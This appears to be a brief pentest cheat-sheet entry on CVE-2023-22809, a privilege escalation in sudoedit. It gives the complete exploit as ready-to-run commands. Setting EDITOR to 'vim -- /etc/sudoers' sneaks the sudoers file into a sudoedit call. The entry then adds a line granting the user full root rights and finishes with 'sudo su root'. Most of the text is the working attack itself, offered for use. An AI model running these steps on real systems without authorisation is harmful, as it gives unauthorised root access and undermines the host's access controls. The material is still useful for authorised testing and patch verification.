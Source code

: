 ```yaml
---
title: Sudoedit Privilege Escalation
description: Sudoedit is vulnerable to privilege escalation.
tags:
    - Privilege Escalation
refs:
    - https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf
date: 2023-03-29
draft: false
---
```


## Investigation

```bash
sudo -l

(root) sudoedit /opt/example.txt
```

If we can execute sudoedit command as root, we might be able to escalate the privileges with some version.

<br />

## Exploitation ([CVE-2023-22809](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf))

```bash
export EDITOR="vim -- /etc/sudoers"
sudoedit /opt/example.txt
```

In vim editor, add the following line in **`/etc/sudoers`**.  
Assume the current username is “john”

```bash
john ALL=(ALL:ALL) ALL
```

After that, we can escalate to root privilege.

```bash
sudo su root
```
